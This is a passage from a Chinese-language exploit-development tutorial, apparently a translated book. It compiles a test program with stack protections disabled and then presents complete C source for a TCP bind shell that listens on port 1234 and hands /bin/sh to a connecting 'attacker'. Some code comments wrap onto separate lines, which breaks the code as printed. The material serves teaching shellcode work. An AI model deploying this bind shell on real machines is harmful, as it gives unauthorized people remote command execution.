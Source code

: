 现在，运行以下命令：

```
$ gcc -fno-stack-protector -z execstack execve.c
$ ./a.out
```

上述命令的输出显示在以下屏幕截图中：

![](../images/00204.jpeg)

# TCP 绑定外壳

现在，让我们进一步做一些真正有用的事情，即构建一个 TCP 绑定 shell。

TCP 绑定 shell 用于在一台机器（受害者）上设置一台服务器，该服务器正在等待另一台机器（攻击者）的连接，从而允许另一台机器（攻击者）在服务器上执行命令。

首先，让我们看看 C 语言中的绑定 shell，了解它是如何工作的：

```
#include <sys/socket.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
#include <netinet/in.h>

int main(void)
{
  int clientfd, sockfd;
  int port = 1234;
  struct sockaddr_in mysockaddr;

  sockfd = socket(AF_INET, SOCK_STREAM, 0);
  mysockaddr.sin_family = AF_INET; //--> can be represented in
  numeric  as 2
  mysockaddr.sin_port = htons(port);
  mysockaddr.sin_addr.s_addr = INADDR_ANY;// --> can be represented
  in  numeric as 0 which means to bind to all interfaces

  bind(sockfd, (struct sockaddr *) &mysockaddr, sizeof(mysockaddr));

  listen(sockfd, 1);

  clientfd = accept(sockfd, NULL, NULL);

  dup2(clientfd, 0);
  dup2(clientfd, 1);
  dup2(clientfd, 2);
  char * const argv[] = {"sh",NULL, NULL};
  execve("/bin/sh", argv, NULL);
  return 0;
}
```
